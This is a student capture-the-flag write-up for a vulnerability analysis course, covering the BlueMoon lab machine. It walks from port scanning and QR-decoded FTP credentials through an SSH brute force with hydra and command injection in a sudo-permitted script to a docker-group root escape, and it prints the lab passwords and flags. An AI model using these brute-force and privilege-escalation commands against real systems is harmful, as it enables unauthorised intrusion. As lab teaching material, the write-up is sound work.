










# BlueMoon CTF Write-up

**Author:** Muhammad Asyraf Hakim Bin Maznan  
**Course:** IKB21403 Vulnerability Analysis  
**Date:** 20/03/2026  

---

## 📌 Overview

Target IP: `192.168.56.103`  
Goal: Obtain user and root access  

Methodology:
- Enumeration  
- Initial Access  
- Privilege Escalation  

---

## 1. 🔍 Enumeration

A full port scan was performed:

```bash
nmap -p- 192.168.56.103
````

Open Ports:

* 21 → FTP
* 22 → SSH
* 80 → HTTP



---

## 2. 🌐 Web Enumeration

The webpage appeared minimal. Inspecting the source revealed hidden files:

```html
<link rel="icon" href=".blue.jpg">

```

These dot-prefixed files indicate hidden resources.



---

## 3. 📁 Hidden File Discovery

Further enumeration revealed:

```
.QR_C0d3.png
```

This file contained a QR code.



---

## 4. 🔳 QR Code Decoding

The QR code revealed FTP credentials:

```
USER=userftp
PASSWORD=ftpp@ssword
```

---

## 5. 📂 FTP Access

Connected using:

```bash
ftp 192.168.56.103
```

Credentials:

```
userftp / ftpp@ssword
```

Files discovered:

* information.txt
* p_lists.txt



---

## 6. 🔑 Credential Discovery

```bash
cat information.txt
```

Output:

```
Hello robin ...!
```

```bash
cat p_lists.txt
```

A list of possible passwords was obtained.

---

## 7. 🔐 SSH Brute Force

```bash
hydra -l robin -P p_lists.txt ssh://192.168.56.103
```

Result:

```
robin : k4rv3ndh4nh4ck3r
```



---

## 8. 💻 SSH Access

```bash
ssh robin@192.168.56.103
```

User flag:

```bash
cat user1.txt
```



---

## 9. ⚡ Privilege Escalation (robin → jerry)

```bash
sudo -l
```

Output:

```
(jerry) NOPASSWD: /home/robin/project/feedback.sh
```



---

## 10. 🧨 Command Injection

The script executes user input directly:

```bash
$feedback
```

Exploit:

```bash
sudo -u jerry /home/robin/project/feedback.sh
```

Input:

```
Name: anything
Feedback: /bin/bash
```

Result:

```
whoami → jerry
```



---

## 11. 🔍 Privilege Escalation (jerry → root)

```bash
id
```

Output shows:

```
docker
```

User is part of docker group → leads to root access.

---

## 12. 🐳 Docker Exploitation

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

Verification:

```bash
whoami
```

Output:

```
root
```



---

## 13. 🏁 Root Flag

```bash
cd /root
cat root.txt
```



---

## 🧠 Key Takeaways

* Hidden files (`.` prefix) are important
* QR codes can store credentials
* Command injection leads to privilege escalation
* Docker group membership = root access

---

## ✅ Final Flags

User:

```
Fl4g{u5er1r34ch3d5ucc355fully}
```

Root:

```
Fl4g{r00t-H4ckTh3Pl4n3t0nc34g41n}
```

---

## 📌 Conclusion

This challenge demonstrated a full exploitation chain from initial enumeration to root compromise through multiple vulnerabilities.
